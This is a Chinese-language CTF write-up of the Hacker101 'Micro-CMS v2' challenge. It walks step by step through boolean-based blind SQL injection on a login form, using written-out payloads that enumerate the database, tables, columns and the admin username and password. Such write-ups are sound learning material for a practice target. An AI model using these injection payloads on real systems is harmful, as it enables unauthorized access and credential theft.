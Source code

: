 ```yaml
---
description: hacker101
---
```


# Micro-CMS v2

升级了,编辑文档都需要登录了

<figure><img src=".gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

1. 尝试修改请求的方法,获得了一个flag

<figure><img src=".gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>



<figure><img src=".gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

使&#x7528;_<mark style="color:red;background-color:$warning;">**`'`**</mark>_ 后,服务器发生错误,说明存在sql注入

<figure><img src=".gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

尝试<mark style="color:red;">**`' OR '1'='1'#`**</mark> 万能登录,提示密码无效,我们现在的查询可能是这样的

<figure><img src=".gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

为什么提示密码无效呢? 它可能提取了密码和我们的请求进行了对比

```php
// Some 

// 步骤1：先查询用户名是否存在（单独校验用户名）
$username = $_POST['username'];
$sql_check_user = "SELECT * FROM users WHERE username='$username'"; 
$result_user = mysqli_query($conn, $sql_check_user);

// 步骤2：判断用户名是否存在
if (mysqli_num_rows($result_user) == 0) { 
    // 用户名不存在 → 提示“无效的用户名”（Unknown user）
    echo "Unknown user"; 
    exit;
}

// 步骤3：若用户名存在，再获取该用户的密码并校验
$row = mysqli_fetch_assoc($result_user);
$password_input = $_POST['password'];
if ($row['password'] == $password_input) { 
    echo "登录成功";
} else {
    echo "密码错误";
}
```

可是我们不知道不知道用户名,也不直到密码到底是多少,但是如果查出了结果,它就会提示 <mark style="color:red;">密码错误  ,这是一个基于错误的sql注入</mark> 我们可以通过这个错误,来枚举数据库的用户名和密码

<figure><img src=".gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

如果出现 Invalid password 说明查询正确,但是它比较了我们post传过去的密码,所以验证没有成功

如果没有出现这个提示,说明没有查询到任何东西. 这就是 <mark style="color:red;">**基于bool的盲注**</mark>

首先我们确保了username绝对是查不出数据的,这样,我们应该使用<mark style="color:red;">**`OR`**</mark><mark style="color:red;">**&#x20;**</mark><mark style="color:red;">**,**</mark>  这样我们 只要OR后面结果为真,就会返回无效密码,只要结果为假,就会返回 未知用户名

首先获得数据库的名词,  使用手动遍历也行,通过二分查找,

`username='OR+ASCII(SUBSTRING(DATABASE(),2,1))>101#&password=` &#x20;

使用ascii 主要是为了防止大小写不区分,比如DATABASE()="User" 和DATABASE()="user" 它都能匹配上,没有区分大小i写,这样就可以炸出数据库名

<figure><img src=".gitbook/assets/image (30).png" alt=""><figcaption><p>burp爆破</p></figcaption></figure>

得到数据库名  `level2`  ,,接着 我想直到 这个数据库中 有几个表

`username='OR+(SELECT+COUNT(*)+FROM+information_schema.tables+WHERE+table_schema%3ddatabase())=2#&password=` 使用子查询&#x20;

得到数据库level2有两个表

通过查询,得到第一个表名字为5个字符,第二个表名为6个字符

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption><p>第一个表名字符数</p></figcaption></figure>



<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption><p>第二个表名字符数</p></figcaption></figure>

通过不断的手工枚举,`username='OR+ASCII(SUBSTRING((SELECT+table_name+FROM+information_schema.tables+WHERE+table_schema%3dDATABASE()+LIMIT+0,1),5,1))=115#&password=`  我得到第一个表名为`pages`&#x20;

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption><p>pages表</p></figcaption></figure>

得到第二个表`admins`&#x20;

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

查询admins 表中有3列

`username='OR+(SELECT+COUNT(*)+FROM+information_schema.columns+WHERE+table_name%3d'admins')=3%23&password=`&#x20;

<figure><img src=".gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

查询admins表的第一列的名字字符数,得到2个

`username='OR+(SELECT+LENGTH(column_name)+FROM+information_schema.columns+WHERE+table_name='admins'+LIMIT+0,1)=2%23&password=username='OR+(SELECT+LENGTH(column_name)+FROM+information_schema.columns+WHERE+table_name='admins'+LIMIT+0,1)=2%23&password=`&#x20;

第二列 字符数为8

第三列 字符数为8

这不禁让我猜测

<figure><img src=".gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

{% columns %}
{% column width="25%" %}
id
{% endcolumn %}

{% column width="33.333333333333336%" %}
username
{% endcolumn %}

{% column width="41.66666666666666%" %}
password
{% endcolumn %}
{% endcolumns %}

可能是这样的,我们试一下,确实是这样的,大胆猜测,小心求证,这节省了我们很多的时间

<figure><img src=".gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>



现在开始猜测用户名,还是从个数开始 ,可知用户只有1个

`username='OR+(SELECT+COUNT(username)+from+admins)=1%23&password=`

<figure><img src=".gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

现在猜测用户名的长度为6,

`username='OR+(SELECT+username+from+admins+LIMIT+0,1)='admins'%23&password=`&#x20;

会不会是admins 呢

<figure><img src=".gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

不是admins

<figure><img src=".gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

再次进行枚举用户名,得到用户名: <mark style="color:red;">`latoya`</mark>

`username='OR+ASCII(SUBSTRING((SELECT+username+from+admins+LIMIT+0,1),6,1))=97%23&password=`

<figure><img src=".gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

猜测用户名的密码长度,得到密码长度为 <mark style="color:red;">`6`</mark>

`username='OR+(SELECT+LENGTH(password)+from+admins)=6%23&password=`&#x20;

<figure><img src=".gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>



猜测密码,为<mark style="color:red;">`juliet`</mark> &#x20;

`username='OR+ASCII(SUBSTRING((SELECT+password+from+admins+LIMIT+0,1),1,1))=106%23&password=`

<figure><img src=".gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

